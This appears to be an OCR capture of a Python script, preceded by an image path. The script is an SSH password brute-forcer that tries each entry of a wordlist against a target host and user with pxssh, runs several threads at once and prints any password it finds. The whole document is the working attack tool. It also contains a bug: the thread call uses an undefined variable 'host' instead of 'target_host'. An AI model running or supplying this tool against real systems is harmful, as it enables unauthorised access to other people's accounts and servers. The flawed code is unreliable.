 ```python
import pexpect.pxssh as pxssh
import optparse
import time
import threading

max_connections = 5
connection_lock = threading.BoundedSemaphore(value=max_connections)
found = False
fails = 0

def connect(host, user, password, release):
    global found, fails
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        print("[+] Password Found: {}".format(password))
        found = True
    except Exception as e:
        if "read_nonblocking" in str(e):
            fails += 1
            time.sleep(5)
            connect(host, user, password, False)
        elif "synchronize with original prompt" in str(e):
            time.sleep(1)
            connect(host, user, password, False)
    finally:
        if release:
            connection_lock.release()

def main():
    parser = optparse.OptionParser("usage %prog -H <target host> -u <user> -F <password list>")
    parser.add_option("-H", dest="target_host", type=str, help="specifiy target host")
    parser.add_option("-F", dest="password_file", type=str, help="specifiy password file")
    parser.add_option("-u", dest="user", type=str, help="specifiy the user")

    options, args = parser.parse_args()
    target_host = options.target_host
    password_file = options.password_file
    user = options.user

    if target_host is None or password_file is None or user is None:
        print(parser.usage)
        exit(-1)

    with open(password_file, "r") as f:
        for line in f.readlines():
            if found:
                print("[*] Exiing: Password Found")
                exit(0)
            if fails > 5:
                print("[!] Exiting: Too Many Socket Timeouts")
                exit(-1)
            connection_lock.acquire()
            password = line.strip("\r\n")
            print("[-] Testing: {}".format(password))
            t = threading.Thread(target=connect, args=(host, user, password, True))
            child = t.start()

if __name__ == "__main__":
    main()
```
